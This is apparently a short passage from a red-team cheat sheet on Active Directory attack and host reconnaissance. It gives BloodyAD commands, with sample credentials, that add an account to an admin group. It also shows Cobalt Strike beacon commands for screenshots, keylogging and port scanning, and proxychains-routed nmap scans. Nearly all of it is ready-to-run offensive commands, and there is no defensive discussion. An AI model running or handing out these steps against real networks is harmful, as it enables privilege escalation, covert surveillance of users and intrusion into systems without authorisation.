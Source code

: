 #### Resources
- [0xe7/PowerSploit - Active Fork](https://github.com/0xe7/PowerSploit)
- https://powersploit.readthedocs.io/en/latest/Recon/
- https://github.com/tevora-threat/SharpView
- https://github.com/HunnicCyber/SharpSniper

### BloodyAD

```
# get attributes
$ bloodyAD -d vault.local -u somadmin -p 'ArchN3mi' --host 10.10.14.120 getObjectAttributes anotheradmin

# add object to group
$ bloodyAD -d vault.local -u somadmin -p 'ArchN3mi' --host 10.10.14.120 addObjectToGroup somadmin 'VAULT.SERVER.ADMINS'
```

### Host Recon

#### Misc situational awareness.

```
# Using CS
beacon> help net
[...]

beacon> screenshot
[...]

beacon> keylogger 30
[...]

# SeatBelt
> seatbelt.exe -group=system
> seatbelt -group=user
```

#### Port scanning

CS

```
# Discovered Targets can view found: 'View -> Targets'
beacon> portscan 10.0.0.0/24 22,80,135,443,445,1433,3389,5895,5896 none
[...]
```

NMAP

```
beacon> socks 1080

# edit /etc/proxychains.conf
$ proxychains3 nmap -n -sT 10.0.0.0/24 -oA nmap-st-10.0.0.0
```
